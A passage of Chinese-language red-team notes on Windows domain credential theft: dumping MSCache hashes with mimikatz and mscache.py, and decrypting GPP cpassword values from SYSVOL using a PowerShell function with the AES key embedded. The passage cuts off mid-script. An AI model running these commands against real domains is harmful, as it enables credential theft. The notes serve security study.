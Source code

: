 
### mscash

**相关文章**
- [你并不懂 Mimikatz Part 2 - MSCACHE](https://mp.weixin.qq.com/s/mTpYcHebvlERj9ek2_Pu8Q)

**利用手段**
- mimikatz
    ```bash
    lsadump::cache  # 获取 SysKey 用于解密 NLKM 和 MSCache(v2)
    ```
- [QAX-A-Team/mscache](https://github.com/QAX-A-Team/mscache)
    ```
    python mscache.py --security security --system system
    ```

---

### GPP

关于 windows 组策略的基本知识点可见笔记 [组策略](../../../Integrated/Windows/笔记/组策略.md)

在 GPP 出现之前，很多统一管理的操作只能通过脚本来实现，而 GPP 方便和简化了这样的管理,GPP 你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用。

注 : GPP 漏洞只在 2008 没打补丁版本上存在，超过 2008 版本的系统是没办法写入密码的。

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹 \SYSVOL 下，默认所有域内用户可访问，虽然被加密，但很容易被解密,访问 XML 文件，利用 AES 私钥可以解密 GPP 密码。

在2012年前的某些点外，微软在 MSDN 上发布了 AES 的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对 SYSVOL 拥有读权限。在域里的任何用户可以搜索 SYSVOL 共享中的带有 cpassword 字样的 XML 文件，里面包含了 AES 加密的密码。

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/2.png)

- 微软在 MSDN 上发布的 AES 加密密钥（共享密钥） : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

使用 PowerShell 脚本解密 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

参考 https://xz.aliyun.com/t/1653 ,可简化 powershell 脚本如下,替换其中 GPP 密码即可
```powershell
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
```